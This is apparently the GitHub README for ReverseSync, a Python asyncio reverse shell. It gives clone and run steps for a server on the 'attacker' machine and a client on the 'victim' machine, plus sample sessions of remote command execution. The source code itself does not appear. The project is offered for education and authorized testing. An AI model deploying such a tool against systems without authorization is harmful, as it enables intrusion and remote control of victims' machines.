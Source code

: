 # 🌀 ReverseSync

A simple, asynchronous reverse shell implemented in Python using `asyncio`. This project consists of a server (`server.py`) and a client (`client.py`) that allow for remote command execution over a TCP connection.

> **⚠️ Disclaimer:**  
> This tool is developed strictly for educational purposes, security research, and authorized penetration testing. **Do not use it on any system or network without explicit permission.** Unauthorized use may be illegal.

---

## ✨ Features

- **Asynchronous I/O** for efficient and responsive communication.
- Interactive shell: Send commands from the server to the client and receive output in real time.
- Handles `cd` (change directory), permission errors, and command execution feedback.
- Clean shutdown on `exit` or interruption.
- Easy to configure and run.

---

## 📦 Requirements

- Python 3.7+
- No external dependencies (uses Python standard library).

---

## 🚀 Usage

### 1. Clone the repository

```bash
git clone https://github.com/outisdz/reversync.git
cd reversync
```

### 2. Start the Server

On the **attacker/controller** machine:

```bash
python3 server.py
```

- The server listens by default on `127.0.0.1:1234`.
- To use a different address or port, modify the `SERVER_HOST` and `SERVER_PORT` variables at the top of `server.py`.

### 3. Start the Client

On the **target/victim** machine (or another terminal):

```bash
python3 client.py
```

- By default, the client connects to `127.0.0.1:1234`.
- To connect to a different server, modify `SERVER_HOST` and `SERVER_PORT` in `client.py`.

### 4. Interact

- Once the client connects, the server prompt appears:
  ```
  ('127.0.0.1', 55555)@remote-shell >
  ```
- Type shell commands (e.g., `ls`, `pwd`, `cat file.txt`) and see the output.
- Use `cd <path>` to change directories on the client.
- Type `clear` to clear your server terminal.
- Type `exit` to terminate the session and shut down the server.

---

## 🖥️ Example

**Server:**
```
$ python3 server.py
[+] Listening for incoming connections on 127.0.0.1:1234
[+] Connection established from ('127.0.0.1', 54321). Type 'exit' to terminate session.
('127.0.0.1', 54321)@remote-shell > pwd
/home/user
('127.0.0.1', 54321)@remote-shell > ls
client.py
server.py
README.md
('127.0.0.1', 54321)@remote-shell > exit
[-] Closing connection and shutting down server...
[-] Shutdown signal received. Closing server...
```

**Client:**
```
$ python3 client.py
[+] Connected to reverse shell server at 127.0.0.1:1234
[>] Executing command: pwd (Current directory: /home/user)
[>] Executing command: ls (Current directory: /home/user)
[-] Connection closed by 127.0.0.1:1234
```

---

## 🔒 Security Warning

- **Never expose this server to the public internet unless you understand the security implications.**
- All data is sent in plaintext (no encryption).
- Anyone who can connect to the server can execute commands on the client.

---

> **📝 Note:**  
> In the future, I plan to add a security layer so that communication between the server and the target is encrypted, as well as to implement an additional protocol for safer and more flexible usage.  
> **Feel free to modify and improve this project as you like—I will read every comment and suggestion!**

---

## 📄 License

[MIT](LICENSE)

---

## 🎓 Educational Purposes Only

This tool is provided as-is for learning and authorized testing. The author is **not responsible for any misuse or damage** caused by this software.